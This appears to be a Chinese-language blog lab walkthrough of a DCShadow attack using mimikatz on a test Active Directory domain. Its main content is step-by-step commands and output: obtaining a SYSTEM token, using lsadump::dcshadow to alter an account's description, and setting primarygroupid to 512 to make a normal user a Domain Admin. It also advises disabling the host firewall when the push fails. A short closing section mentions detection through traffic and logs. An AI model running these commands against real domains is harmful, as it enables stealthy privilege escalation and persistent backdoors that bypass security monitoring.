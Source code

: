 ```yaml
---
layout: post
title:  "使用mimikatz执行DCShadow攻击"
date:   2020-12-09
tags: june-1
color: rgb(135,206,235)
cover: '../assets/test.jpg'
subtitle: 'DCShadow创建临时域控'
---
```


# DCShadow
DCShadow是mimikatz中lsadump模块的新功能。它能模拟域控制器的行为（该攻击使用仅由DC使用的RPC的协议）来注入自己想要的数据，从而绕过包括SIEM在内的大多数常见的安全控件。它与DCSync攻击（已经存在于mimikatz的lsadump模块中）具有某些相似之处。
# 测试环境
DC:Windows server 2012
域：tony.local
![1](/assets/DCShadow/1.png)
域主机:Windows server 2016
已加域
![2](/assets/DCShadow/2.png)
## 涉及到的账户
### 域管理组账户
账户名:test
![3](/assets/DCShadow/3.png)
### 域普通账户
账户名:dc
![4](/assets/DCShadow/4.png)
# 实验流程-1
## 创建窗口A
登录域主机Windows server 2016本地账
![5](/assets/DCShadow/5.png)
### 右键管理员打开权限mimikatz
![6](/assets/DCShadow/6.png)
### 启用system权限
依次执行命令，确保当前的进程已system权限打开
{% highlight ruby %}
mimikatz # !+
[+] 'mimidrv' service already registered
[*] 'mimidrv' service already started

mimikatz # !processtoken
Token from process 0 to process 0
 * from 0 will take SYSTEM token
 * to 0 will take all 'cmd' and 'mimikatz' process
Token from 4/System
 * to 584/cmd.exe
 * to 3968/mimikatz.exe

mimikatz # token::whoami
 * Process Token : {0;000003e7} 1 D 1421627     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,31p)       Primary
 * Thread Token  : no token
{% endhighlight %}
### 窗口Ａ
这个窗口暂时命名为:窗口A
![7](/assets/DCShadow/7.png)
## 开始执行DCShadow
### 查看描述
这里更改dc账户的描述，先查看dc的描述，由于我更改过，所以此时显示为
	“hi,hello”
![8](/assets/DCShadow/8.png)
### 执行更改
在刚才启动的窗口A中执行修改命令，来替换“hi,hello”
{% highlight ruby %}
mimikatz # lsadump::dcshadow /object:CN=dc,CN=Users,DC=tony,DC=local /attribute:description /value:"an attcker"
{% endhighlight %}
执行完后如下所示，等待通过RPC协议推送至域控
![9](/assets/DCShadow/9.png)
## 创建窗口B
保持这个窗口，不要关闭！并在管理员权限下打开另一个cmd窗口，这个窗口的权限必须是域管理组成员的权限，也就是Domain admin组成员。
### 使用PSEXEC
这里使用psexec来启用窗口
![10](/assets/DCShadow/10.png)
### 运行mimikatz
在这个窗口下运行mimikatz,查看当前的权限，为域管理权限test
![11](/assets/DCShadow/11.png)
### 执行推送命令
执行推送命令，下图可以看到，执行完推送命令后，刚开始执行修改的窗口显示RPC server stopped，此时就已经修改完成
{% highlight ruby %}
mimikatz # lsadump::dcshadow /push
{% endhighlight %}
![12](/assets/DCShadow/12.png)
## 查看修改结果
修改成功
![13](/assets/DCShadow/13.png)
# 实验流程-2
将dc账户添加至管理员组(Domain admin)
## 查看描述
首先查看dc的信息
{% highlight ruby %}
PSC:\Users\Administrator> ([adsisearcher]"(&(objectCategory=user)(name=dc))").Findall().Properties
{% endhighlight %}
此时dc的组ID为513
![14](/assets/DCShadow/14.png)
可以参考下面的对应组ID，513为域用户，那想要将dc加入至域管理组，就需要将组ID更改为512
	512   Domain Admins
	513   Domain Users
	514   Domain Guests
	515   Domain Computers
	516   Domain Controllers
## 执行更改
在窗口A中执行
{% highlight ruby %}
mimikatz # lsadump::dcshadow /object:CN=dc,CN=Users,DC=tony,DC=local /attribute:primarygroupid /value:512
{% endhighlight %}
![15](/assets/DCShadow/15.png)
## 执行推送命令
推送至域控制器
![16](/assets/DCShadow/16.png)
## 查看修改结果
查看dc的所属组
![17](/assets/DCShadow/17.png)
![18](/assets/DCShadow/18.png)
# 可能会出现的实验失败情况
在实验过程中，出现推送服务失败的情况，短暂性的卡在如下图的界面，随后出现Performing Unregistration(取消注册)，这里呢，域控之间的通信是通过RPC服务来进行的，执行推送的过程也是需要RPC服务，域控本身RPC服务端口是开放的，但是测试主机的RPC服务端口未开放。所以，有两种解决方法：
1、	把域主机的防火墙关闭
2、	在域主机防火墙中添加策略，开放RPC服务的端口（具体就不再写了，可以自行百度）
![19](/assets/DCShadow/19.png)
![20](/assets/DCShadow/20.png)
6.	总结
DCShadow目前还是具有危害性的操作行为，该技术可以用于更改和删除复制以及其他关联的元数据，以阻止应急人员分析。攻击者还可以利用此技术执行SID历史记录注入和操纵AD对象（例如帐户，访问控制列表等）以建立持久性后门。
这不属于漏洞，因为是使用合法的已记录使用的协议：
	MS-ADTS
	MS-DRSR
这是一种利用后攻击（也称为控制攻击），因为它需要域管理员（或企业管理员）特权。
安全分析人员可以通过流量以及相关的安全日志来查找痕迹。

